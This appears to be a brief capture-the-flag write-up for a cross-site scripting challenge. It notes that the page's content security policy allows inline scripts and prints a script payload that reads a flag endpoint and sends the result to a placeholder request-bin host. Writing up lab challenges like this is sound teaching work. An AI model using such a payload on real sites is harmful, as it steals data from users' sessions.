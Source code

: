 Standard XSS challenge, CSP will allow inline scripts. 

Something like the following payload would work, 

```
<script>
	var xhr = new XMLHttpRequest(); 
	xhr.open('GET','/xss-one-flag', true); 
	xhr.onload = function () { 
		var request = new XMLHttpRequest(); 
		request.open('GET', 'https://REQUEST_BIN_URL?flag='+xhr.responseText, true);
		request.send()
	};
	xhr.send(null);
 </script>
```

If you want to test the challenge, run the following command - 
`python solution.py <challenge-url>`
